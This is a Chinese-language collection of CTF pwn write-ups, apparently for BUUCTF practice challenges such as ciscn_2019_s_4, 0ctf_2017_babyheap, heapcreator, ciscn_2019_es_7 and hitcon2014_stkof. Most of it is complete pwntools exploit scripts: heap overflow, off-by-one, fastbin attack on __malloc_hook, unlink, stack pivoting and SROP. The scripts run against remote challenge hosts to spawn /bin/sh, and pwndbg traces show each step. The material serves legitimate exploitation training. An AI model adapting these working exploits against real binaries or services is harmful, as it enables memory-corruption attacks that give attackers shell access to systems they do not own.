context.log_level='debug'
## io = remote("node4.buuoj.cn",28141)
io = process("./magicheap")
def CreateHeap(size,content):
io.sendlineafter('Your choice :','1')
io.sendlineafter('Size of Heap : ',str(size))
io.sendlineafter('Content of heap:',content)
def EditHeap(idx,size,content):
io.sendlineafter('Your choice :','2')
io.sendlineafter('Index :',str(idx))
io.sendlineafter('Size of Heap : ',str(size))
io.sendlineafter('Content of heap : ',content)
def DeleteHeap(idx):
io.sendlineafter('Your choice :','3')
io.sendlineafter('Index :',str(idx))
CreateHeap(0x10,"a"*0x10)
CreateHeap(0x50,"b"*0x50)
CreateHeap(0x10,"c"*0x10)
DeleteHeap(1)
payload = 'a'*0x10+ p64(0)+p64(0x91) + p64(magic-0x10)+ p64(magic-0x10)
EditHeap(0,0x30,payload)
CreateHeap(0x50,'eeee'*0x1)
io.sendlineafter(':','4869')
## gdb.attach(p)
io.interactive()0x3A.ciscn_2019_s_4
gwt@ubuntu:~/Desktop$ checksec ciscn_s_4
[*] '/home/gwt/Desktop/ciscn_s_4'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
gwt@ubuntu:~/Desktop$ int __cdecl main(int argc, const char **argv, const char **envp)
{
init();
puts("Welcome, my friend. What's your name?");
vul();
return 0;
}
int vul()
{
char s[40]; // [esp+0h] [ebp-28h] BYREF
memset(s, 0, 0x20u);
read(0, s, 0x30u);
printf("Hello, %s\n", s);
read(0, s, 0x30u);
return printf("Hello, %s\n", s);
}
//还有个后门函数
int hack()
{
return system("echo flag");
}这题输入的定长只有0x30，只能溢出8字节，所以不能ret2libc。
vuln是以leave ret结尾的
.text:08048595
.text:08048595 ; __unwind {
.text:08048595 push ebp
.text:08048596 mov ebp, esp
.text:08048598 sub esp, 28h
.text:0804859B sub esp, 4
.text:0804859E push 20h ; ' ' ; n
.text:080485A0 push 0 ; c
.text:080485A2 lea eax, [ebp+s]
.text:080485A5 push eax ; s
.text:080485A6 call _memset
.text:080485AB add esp, 10h
.text:080485AE sub esp, 4
.text:080485B1 push 30h ; '0' ; nbytes
.text:080485B3 lea eax, [ebp+s]
.text:080485B6 push eax ; buf
.text:080485B7 push 0 ; fd
.text:080485B9 call _read
.text:080485BE add esp, 10h
.text:080485C1 sub esp, 8
.text:080485C4 lea eax, [ebp+s]
.text:080485C7 push eax
.text:080485C8 push offset format ; "Hello, %s\n"
.text:080485CD call _printf
.text:080485D2 add esp, 10h
.text:080485D5 sub esp, 4
.text:080485D8 push 30h ; '0' ; nbytes
.text:080485DA lea eax, [ebp+s]
.text:080485DD push eax ; buf
.text:080485DE push 0 ; fd
.text:080485E0 call _read
.text:080485E5 add esp, 10h
.text:080485E8 sub esp, 8
.text:080485EB lea eax, [ebp+s]
.text:080485EE push eax
.text:080485EF push offset format ; "Hello, %s\n"
.text:080485F4 call _printf
.text:080485F9 add esp, 10h
.text:080485FC nop
.text:080485FD leave
.text:080485FE retn
.text:080485FE ; } // starts at 8048595
.text:080485FE vul endp可以进行栈迁移。
假设esp => 0x1111,ebp=>0x2222
那么leave：
mov esp,ebp; // esp = ebp = 0x2222
pop ebp ;// ebp = [esp]，esp = esp+4
输入0x20个a查看栈
pwndbg> stack 30
00:0000│ esp 0xffffd048 —▸ 0xffffd098 —▸ 0xffffd0a8 ◂— 0x0
01:0004│ 0xffffd04c ◂— 0x30 /* '0' */
02:0008│ 0xffffd050 —▸ 0xffffd070 ◂— 0x61616161 ('aaaa')
03:000c│ 0xffffd054 —▸ 0xf7ed9c43 (__read_nocancel+25) ◂— pop ebx
04:0010│ 0xffffd058 ◂— 0x0
05:0014│ 0xffffd05c —▸ 0x80485e5 (vul+80) ◂— add esp, 0x10
06:0018│ 0xffffd060 ◂— 0x0
07:001c│ 0xffffd064 —▸ 0xffffd070 ◂— 0x61616161 ('aaaa')
08:0020│ 0xffffd068 ◂— 0x30 /* '0' */
09:0024│ 0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
0a:0028│ ecx 0xffffd070 ◂— 0x61616161 ('aaaa')
... ↓
12:0048│ 0xffffd090 —▸ 0x80486d8 ◂— push edi
13:004c│ 0xffffd094 —▸ 0xffffd154 —▸ 0xffffd327 ◂— './ciscn_s_4'
14:0050│ ebp 0xffffd098 —▸ 0xffffd0a8 ◂— 0x0
15:0054│ 0xffffd09c —▸ 0x804862a (main+43) ◂— mov eax, 0
16:0058│ 0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
17:005c│ 0xffffd0a4 —▸ 0xffffd0c0 ◂— 0x1可以看到ebp的地址是0xffffd0a8，输入的buf的地址是0xffffd070，相差0x38.
payload = 'a'*(0x28)
io.send(payload)
io.recvuntil('a'*0x28)
ebp = u32(io.recv(4))
print hex(ebp)第二次构造的payload是这样：
payload=(p32(sys_addr)+'aaaa'+p32(buf+12)+'/bin/sh\x00').ljust(0x28,'a')+p32(buf_addr-4)+p32(leave)
前面的0x28是用来填充，buf_addr是覆写ebp的地址，leave覆写ret的地址。
所有的流程如下：

具体的调试情况如下：
执行源程序中的leave前：
EAX 0x8
EBX 0x0
ECX 0xffffffff
EDX 0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
EDI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
ESI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
EBP 0xffffd098 —▸ 0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
ESP 0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp dword ptr [0x804a018]
EIP 0x80485fd (vul+104) ◂— leave
──────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────
0x80485ee <vul+89> push eax
0x80485ef <vul+90> push 0x80486ca
0x80485f4 <vul+95> call printf@plt <0x80483e0>
0x80485f9 <vul+100> add esp, 0x10
0x80485fc <vul+103> nop
► 0x80485fd <vul+104> leave
0x80485fe <vul+105> ret
↓
0x80484b8 <deregister_tm_clones+40> leave
0x80484b9 <deregister_tm_clones+41> ret
↓
0x8048400 <system@plt> jmp dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
0x8048406 <system@plt+6> push 0x18
───────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp dword ptr [0x804a018]
01:0004│ 0xffffd074 ◂— 0x61616161 ('aaaa')
02:0008│ 0xffffd078 —▸ 0xffffd07c ◂— '/bin/sh'
03:000c│ 0xffffd07c ◂— '/bin/sh'
04:0010│ 0xffffd080 ◂— 0x68732f /* '/sh' */
05:0014│ 0xffffd084 ◂— 0x61616161 ('aaaa')执行源程序中的leave后：
EAX 0x8
EBX 0x0
ECX 0xffffffff
EDX 0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
EDI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
ESI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
EBP 0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
ESP 0xffffd09c —▸ 0x80484b8 (deregister_tm_clones+40) ◂— leave
EIP 0x80485fe (vul+105) ◂— ret
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
0x80485ef <vul+90> push 0x80486ca
0x80485f4 <vul+95> call printf@plt <0x80483e0>
0x80485f9 <vul+100> add esp, 0x10
0x80485fc <vul+103> nop
0x80485fd <vul+104> leave
► 0x80485fe <vul+105> ret <0x80484b8; deregister_tm_clones+40>
↓
0x80484b8 <deregister_tm_clones+40> leave
0x80484b9 <deregister_tm_clones+41> ret
↓
0x8048400 <system@plt> jmp dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
0x8048406 <system@plt+6> push 0x18
0x804840b <system@plt+11> jmp 0x80483c0
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd09c —▸ 0x80484b8 (deregister_tm_clones+40) ◂— leave
01:0004│ 0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
02:0008│ 0xffffd0a4 —▸ 0xffffd0c0 ◂— 0x1
03:000c│ 0xffffd0a8 ◂— 0x0
04:0010│ 0xffffd0ac —▸ 0xf7e1c647 (__libc_start_main+247) ◂— add esp, 0x10
05:0014│ 0xffffd0b0 —▸ 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
07:001c│ 0xffffd0b8 ◂— 0x0执行完源程序中的ret后：
EAX 0x8
EBX 0x0
ECX 0xffffffff
EDX 0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
EDI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
ESI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
EBP 0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
ESP 0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
EIP 0x80484b8 (deregister_tm_clones+40) ◂— leave
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
0x80485f4 <vul+95> call printf@plt <0x80483e0>
0x80485f9 <vul+100> add esp, 0x10
0x80485fc <vul+103> nop
0x80485fd <vul+104> leave
0x80485fe <vul+105> ret
↓
► 0x80484b8 <deregister_tm_clones+40> leave
0x80484b9 <deregister_tm_clones+41> ret
↓
0x8048400 <system@plt> jmp dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
0x8048406 <system@plt+6> push 0x18
0x804840b <system@plt+11> jmp 0x80483c0
↓
0x80483c0 push dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004>
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
01:0004│ 0xffffd0a4 —▸ 0xffffd0c0 ◂— 0x1
02:0008│ 0xffffd0a8 ◂— 0x0
03:000c│ 0xffffd0ac —▸ 0xf7e1c647 (__libc_start_main+247) ◂— add esp, 0x10
04:0010│ 0xffffd0b0 —▸ 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
06:0018│ 0xffffd0b8 ◂— 0x0
07:001c│ 0xffffd0bc —▸ 0xf7e1c647 (__libc_start_main+247) ◂— add esp, 0x10执行完构造payload中的leave后：
EAX 0x8
EBX 0x0
ECX 0xffffffff
EDX 0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
EDI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
ESI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
EBP 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
ESP 0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp dword ptr [0x804a018]
EIP 0x80484b9 (deregister_tm_clones+41) ◂— ret
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
0x80485f9 <vul+100> add esp, 0x10
0x80485fc <vul+103> nop
0x80485fd <vul+104> leave
0x80485fe <vul+105> ret
↓
0x80484b8 <deregister_tm_clones+40> leave
► 0x80484b9 <deregister_tm_clones+41> ret <0x8048400; system@plt>
↓
0x8048400 <system@plt> jmp dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
0x8048406 <system@plt+6> push 0x18
0x804840b <system@plt+11> jmp 0x80483c0
↓
0x80483c0 push dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004>
0x80483c6 jmp dword ptr [0x804a008] <0xf7fee000>
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp dword ptr [0x804a018]
01:0004│ 0xffffd074 ◂— 0x61616161 ('aaaa')
02:0008│ 0xffffd078 —▸ 0xffffd07c ◂— '/bin/sh'
03:000c│ 0xffffd07c ◂— '/bin/sh'
04:0010│ 0xffffd080 ◂— 0x68732f /* '/sh' */
05:0014│ 0xffffd084 ◂— 0x61616161 ('aaaa')执行完构造payload中的ret后：
EAX 0x8
EBX 0x0
ECX 0xffffffff
EDX 0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
EDI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
ESI 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
EBP 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
ESP 0xffffd074 ◂— 0x61616161 ('aaaa')
EIP 0x8048400 (system@plt) ◂— jmp dword ptr [0x804a018]
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
0x80485fc <vul+103> nop
0x80485fd <vul+104> leave
0x80485fe <vul+105> ret
↓
0x80484b8 <deregister_tm_clones+40> leave
0x80484b9 <deregister_tm_clones+41> ret
↓
► 0x8048400 <system@plt> jmp dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
0x8048406 <system@plt+6> push 0x18
0x804840b <system@plt+11> jmp 0x80483c0
↓
0x80483c0 push dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004>
0x80483c6 jmp dword ptr [0x804a008] <0xf7fee000>
↓
0xf7fee000 <_dl_runtime_resolve> push eax
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd074 ◂— 0x61616161 ('aaaa')
01:0004│ 0xffffd078 —▸ 0xffffd07c ◂— '/bin/sh'
02:0008│ 0xffffd07c ◂— '/bin/sh'
03:000c│ 0xffffd080 ◂— 0x68732f /* '/sh' */
04:0010│ 0xffffd084 ◂— 0x61616161 ('aaaa')Exp：
from pwn import *
context.log_level='debug'
io = remote("node4.buuoj.cn",27655)
## io = process("./ciscn_s_4")
elf = ELF("./ciscn_s_4")
sys_addr = elf.sym['system']
leave=0x080484b8
io.recv()
payload = 'a'*(0x28)
io.send(payload)
io.recvuntil('a'*0x28)
## gdb.attach(io)
ebp = u32(io.recv(4))
buf_add = ebp - 0x38
print hex(ebp)
payload = p32(sys_addr) + 'aaaa' + p32(buf_add+12) + b"/bin/sh\x00"
payload += (0x28 - len(payload))* b'a' + p32(buf_add-4) + p32(leave)
##payload = 'aaaa'+p32(sys_addr) + 'aaaa' + p32(buf_add+16) + b"/bin/sh\x00"
##payload += (0x28 - len(payload))* b'a' + p32(buf_add) + p32(leave)
##两个payload都可以，意思都一样
io.send(payload)
io.interactive()0x3B.0ctf_2017_babyheap
这题重复了，前面有个一样的。
当unsortedbin只有一个时，他的fd和bk指向main_arena + 0x58，而且 main_arena 又相对 libc 固定偏移 0x3c4b20，所以得到的内容减去0x3c4b78就是libc的基地址
exp：
from pwn import *
context(log_level='DEBUG')
## io = process('./0ctf_2017_babyheap')
io = remote("node4.buuoj.cn", 26377)
## libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("libc-x64-2.23.so")
def allocate(size):
io.recvuntil("Command: ")
io.sendline("1")#allocate
io.recvuntil("Size: ")
io.sendline(str(size))
def fill(index,content):
io.recvuntil('Command: ')
io.sendline('2')
io.recvuntil('Index: ')
io.sendline(str(index))
io.recvuntil('Size: ')
io.sendline(str(len(content)))
io.recvuntil('Content: ')
io.send(content)
def free(index):
io.recvuntil("Command: ")
io.sendline("3")#free
io.recvuntil("Index: ")
io.sendline(str(index))
def dump(index):
io.recvuntil("Command: ")
io.sendline("4")
io.recvuntil("Index: ")
io.sendline(str(index))
allocate(0x10)#0
allocate(0x10)#1
allocate(0x10)#2
allocate(0x10)#3
allocate(0x80)#4
allocate(0x10)#5 topchunk
free(1)
free(2)
payload = p64(0)*3 +p64(0x21) + p64(0)*3 +p64(0x21) +p8(0x80)
fill(0,payload)
payload = p64(0)*3 +p64(0x21)
fill(3,payload)
allocate(0x10)#1 -->2
allocate(0x10)#2 -->4
payload = p64(0)*3 +p64(0x91)
fill(3,payload)
free(4)
dump(2)
io.recvuntil('ent: \n')
libc_base = u64(io.recv(8)) - 0x3c4b78
print hex(libc_base)
malloc_hook = libc_base + libc.sym['__malloc_hook']
allocate(0x60)
free(4)
payload = p64(malloc_hook - 0x23)
fill(2,payload)
allocate(0x60)#4
allocate(0x60)#6
payload = p8(0)*3 + p64(0)*2 +p64(libc_base+0x4526a)
fill(6,payload)
allocate(0x60)
io.interactive()0x3C.hitcontraining_heapcreator
unsigned __int64 create_heap()
{
void **v0; // rbx
int i; // [rsp+4h] [rbp-2Ch]
size_t size; // [rsp+8h] [rbp-28h]
char buf[8]; // [rsp+10h] [rbp-20h] BYREF
unsigned __int64 v5; // [rsp+18h] [rbp-18h]
v5 = __readfsqword(0x28u);
for ( i = 0; i <= 9; ++i )
{
if ( !(&heaparray)[i] )
{
(&heaparray)[i] = malloc(0x10uLL);
if ( !(&heaparray)[i] )
{
puts("Allocate Error");
exit(1);
}
printf("Size of Heap : ");
read(0, buf, 8uLL);
size = atoi(buf);
v0 = (&heaparray)[i];
v0[1] = malloc(size);
if ( !(&heaparray)[i][1] )
{
puts("Allocate Error");
exit(2);
}
*(&heaparray)[i] = size;
printf("Content of heap:");
read_input((&heaparray)[i][1], size);
puts("SuccessFul");
return __readfsqword(0x28u) ^ v5;
}
}
return __readfsqword(0x28u) ^ v5;
}申请的首个0x10，前0x8放size，后半部分放申请的size的地址
unsigned __int64 edit_heap()
{
int v1; // [rsp+Ch] [rbp-14h]
char buf[8]; // [rsp+10h] [rbp-10h] BYREF
unsigned __int64 v3; // [rsp+18h] [rbp-8h]
v3 = __readfsqword(0x28u);
printf("Index :");
read(0, buf, 4uLL);
v1 = atoi(buf);
if ( v1 < 0 || v1 > 9 )
{
puts("Out of bound!");
_exit(0);
}
if ( (&heaparray)[v1] )
{
printf("Content of heap : ");
read_input((&heaparray)[v1][1], *(&heaparray)[v1] + 1);//这里存在off by one
puts("Done !");
}
else
{
puts("No such heap !");
}
return __readfsqword(0x28u) ^ v3;
}delete：
unsigned __int64 delete_heap()
{
int v1; // [rsp+Ch] [rbp-14h]
char buf[8]; // [rsp+10h] [rbp-10h] BYREF
unsigned __int64 v3; // [rsp+18h] [rbp-8h]
v3 = __readfsqword(0x28u);
printf("Index :");
read(0, buf, 4uLL);
v1 = atoi(buf);
if ( v1 < 0 || v1 > 9 )
{
puts("Out of bound!");
_exit(0);
}
if ( (&heaparray)[v1] )
{
free((&heaparray)[v1][1]);//free mallocsize)
free((&heaparray)[v1]); //free 0x10
(&heaparray)[v1] = 0LL;
puts("Done !");
}
else
{
puts("No such heap !");
}
return __readfsqword(0x28u) ^ v3;
}思路：利用edit的off by one ，覆写size，然后free掉，再申请，填充payload，将free的got打印出来，覆写free的地址为system的地址，然后delete即可。
create(0x18,'a')
create(0x10,'a')
create(0x10,'a')
create(0x10,'/bin/sh\x00')
edit(0,'a'*0x18+'\x81')覆写掉第二次的0x10的size位为0x81;
delete(1)
create(0x70,'a')
edit(1, 'a'*0x40 + p64(8) + p64(elf.got['free']))
show(2)
io.recvuntil('Content : ')
free_add = u64(io.recvuntil('Done')[:-5].ljust(8,'\x00'))将free的地址打印出来；
edit(2,p64(system_add))这里是将malloc的地址的地址改为system的地址，再之后free的时候就转为执行system.
Exp：
from pwn import *
context(log_level='DEBUG')
io=remote("node4.buuoj.cn",28078)
## io = process("heapcreator")
elf=ELF('./heapcreator')
libc = ELF("./libc-x64-2.23.so")
def create(length,value):
io.recvuntil("Your choice :")
io.sendline("1")
io.recvuntil("Size of Heap : ")
io.sendline(str(int(length)))
io.recvuntil("Content of heap:")
io.sendline(value)
def edit(index,value):
io.recvuntil("Your choice :")
io.sendline("2")
io.recvuntil("Index :")
io.sendline(str(int(index)))
io.recvuntil("Content of heap : ")
io.sendline(value)
def show(index):
io.recvuntil("Your choice :")
io.sendline("3")
io.recvuntil("Index :")
io.sendline(str(int(index)))
def delete(index):
io.recvuntil('Your choice :')
io.sendline('4')
io.recvuntil('Index :')
io.sendline(str(int(index)))
create(0x18,'a')
create(0x10,'a')
create(0x10,'a')
create(0x10,'/bin/sh\x00')
edit(0,'a'*0x18+'\x81')
delete(1)
create(0x70,'a')
edit(1, 'a'*0x40 + p64(8) + p64(elf.got['free']))
show(2)
io.recvuntil('Content : ')
free_add = u64(io.recvuntil('Done')[:-5].ljust(8,'\x00'))
base = free_add - libc.sym['free']
system_add = base + libc.sym['system']
## gdb.attach(io)
edit(2,p64(system_add))
delete(3)
io.interactive()0x3D.wustctf2020_closed
感觉挺有意思的一个题，考的不是pwn的知识，应该是Linux相关的知识
__int64 vulnerable()
{
puts("HaHaHa!\nWhat else can you do???");
close(1);
close(2);
return shell();
}这里close了标准输出和标准错误，也就是说，虽然有了shell，但是获得不了输出。
可以通过exec 1>&0来把标准输出重定向到文件描述符0（标准输入），这个文件默认是开启的。这样我们就可以看到输出了。
exec有两个作用
- 代替shell执行命令，区别是shell执行完之后会回到shell，而exec会直接退出。
- 文件重定向，也就是
exec 1>&0这样将文件描述符为1的文件重定向到0上
所以，，nc然后exec就OK
0x3E.ciscn_2019_es_7（SROP）
.text:00000000004004ED ; __unwind {
.text:00000000004004ED push rbp
.text:00000000004004EE mov rbp, rsp
.text:00000000004004F1 xor rax, rax
.text:00000000004004F4 mov edx, 400h ; count
.text:00000000004004F9 lea rsi, [rsp+buf] ; buf
.text:00000000004004FE mov rdi, rax ; fd
.text:0000000000400501 syscall ; LINUX - sys_read
.text:0000000000400503 mov rax, 1
.text:000000000040050A mov edx, 30h ; '0' ; count
.text:000000000040050F lea rsi, [rsp+buf] ; buf
.text:0000000000400514 mov rdi, rax ; fd
.text:0000000000400517 syscall ; LINUX - sys_write
.text:0000000000400519 retn
.text:0000000000400519 vuln endp ; sp-analysis failed其中buf长度是0x10，但是write的时候打印了0x30个字符，可以打印出地址，调试输入的内容与返回地址的偏移
之后栈地址-偏移地道输入的地址
配合srop getshell
yutao@ubuntu:~$ cd Desktop/
[+] Starting local process './ciscn_2019_es_7' argv=['./ciscn_2019_es_7'] : pid 95424
[*] running in new terminal: /usr/bin/gdb -q "./ciscn_2019_es_7" 95424
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q "./ciscn_2019_es_7" 95424']
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
[DEBUG] Sent 0x18 bytes:
00000000 2f 62 69 6e 2f 73 68 00 00 00 00 00 00 00 00 00 │/bin│/sh·│····│····│
00000010 ed 04 40 00 00 00 00 00 │··@·│····│
00000018
[DEBUG] Received 0x30 bytes:
00000000 2f 62 69 6e 2f 73 68 00 00 00 00 00 00 00 00 00 │/bin│/sh·│····│····│
00000010 ed 04 40 00 00 00 00 00 36 05 40 00 00 00 00 00 │··@·│····│6·@·│····│
00000020 58 c4 e9 87 fc 7f 00 00 00 00 00 00 01 00 00 00 │X···│····│····│····│
00000030
0x7ffc87e9c458可以算出binsh与0x7ffc87e9c458的地址差0x118.
额。。要加：
context.arch = 'amd64'
context.os = 'linux'第一开始没懂，还重装了便系统，。。
exp：
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'
io = process("./ciscn_2019_es_7")
## pause()
## gdb.attach(io)
vuln_addr = 0x04004ED
syscall_ret=0x400517
sigreturn_addr=0x4004da#__NR_rt_sigreturn
system_addr=0x4004E2#execve
io.sendline("/bin/sh\x00"+"\x00"*8+p64(vuln_addr))
io.recv(32)
stack_leak= u64(io.recv(8))
bin_sh = stack_leak - 0x118
io.recv()
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = bin_sh
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_leak
sigframe.rip = syscall_ret
io.send("/bin/sh\x00"+p64(0) + p64(sigreturn_addr)+p64(syscall_ret)+str(sigframe))
io.interactive()0x3F.hitcon2014_stkof(unlink)
setbuf()/setvbuf()函数作用：关闭I/O缓冲区
一般为了让程序显示正常，会关闭I/O缓冲区
但是本题没有关闭缓冲区，函数运行开始阶段在fgets()函数以及printf()函数运行的时候，会malloc()两块内存区域。大小都是0x1000
所以申请的第一个chunk会加在输入输出缓冲区之间，后续并没有什么用
__int64 __fastcall main(int a1, char **a2, char **a3)
{
int v3; // eax
int v5; // [rsp+Ch] [rbp-74h]
char nptr[104]; // [rsp+10h] [rbp-70h] BYREF
unsigned __int64 v7; // [rsp+78h] [rbp-8h]
v7 = __readfsqword(0x28u);
while ( fgets(nptr, 10, stdin) )
{
v3 = atoi(nptr);
if ( v3 == 2 )
{
v5 = edit();
goto LABEL_14;
}
if ( v3 > 2 )
{
if ( v3 == 3 )
{
v5 = free_0();
goto LABEL_14;
}
if ( v3 == 4 )
{
v5 = sub_400BA9();
goto LABEL_14;
}
}
else if ( v3 == 1 )
{
v5 = malloc_0();
goto LABEL_14;
}
v5 = -1;
LABEL_14:
if ( v5 )
puts("FAIL");
else
puts("OK");
fflush(stdout);
}
return 0LL;
}unlink，设指向可 UAF chunk 的指针的地址为 ptr
- 修改 fd 为 ptr - 0x18
- 修改 bk 为 ptr - 0x10
- 触发 unlink
ptr 处的指针会变为 ptr - 0x18。
使得已指向 UAF chunk 的指针 ptr 变为 ptr - 0x18
首先：
alloc(0x1000)#1
alloc(0x30)#2
alloc(0x80)#3
alloc(0x30)#4
##后续 unlink 使用
target = 0x602140 + 0x10
fd = target - 0x18
bk = target - 0x10接下来构造fake chunk，并将下一个的prev_size写为0x30，这样后面free(3)的时候会将2这个chunk合并。之后chunk2就是0x602140这个位置了。
payload = p64(0) + p64(0x30)
payload += p64(fd) + p64(bk)
payload += "a"*0x10
payload += p64(0x30) + p64(0x90)
fill(2,payload)
free(3)这里是将程序中malloc的地址复写为free_got和puts_got
payload = "b"*0x10
payload += p64(free_got) + p64(puts_got)
fill(2,payload)将free_got中写入puts_plt这样free的时候实际执行的是puts函数，打印出puts_addr
payload = p64(puts_plt)
fill(1,payload)
free(2)再之后就是正常的流程了：
puts_addr = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
libc_base = puts_addr - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search("/bin/sh").next()
payload = p64(system)
fill(1,payload)
fill(4,'/bin/sh\x00')
free(4)Exp：
from pwn import *
p=remote("node3.buuoj.cn",28999)
##p = process("./stkof")
context.log_level = 'debug'
elf = ELF("./stkof")
libc = ELF("./libc-x64-2.23.so")
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
def alloc(size):
p.sendline(str(1))
p.sendline(str(size))
p.recvuntil("OK")
def fill(idx,content):
p.sendline(str(2))
p.sendline(str(idx))
p.sendline(str(len(content)))
p.sendline(content)
p.recvuntil("OK")
def free(idx):
p.sendline(str(3))
p.sendline(str(idx))
alloc(0x1000)#1
alloc(0x30)#2
alloc(0x80)#3
alloc(0x30)#4
target = 0x602140 + 0x10
fd = target - 0x18
bk = target - 0x10
payload = p64(0) + p64(0x30)
payload += p64(fd) + p64(bk)
payload += "a"*0x10
payload += p64(0x30) + p64(0x90)
fill(2,payload)
free(3)
gdb.attach(p)
payload = "b"*0x10
payload += p64(free_got) + p64(puts_got)
fill(2,payload)
## gdb.attach(p)
payload = p64(puts_plt)
fill(1,payload)
gdb.attach(p)
free(2)
## gdb.attach(p)
puts_addr = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
libc_base = puts_addr - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search("/bin/sh").next()
payload = p64(system)
fill(1,payload)
fill(4,'/bin/sh\x00')
free(4)
p.interactive()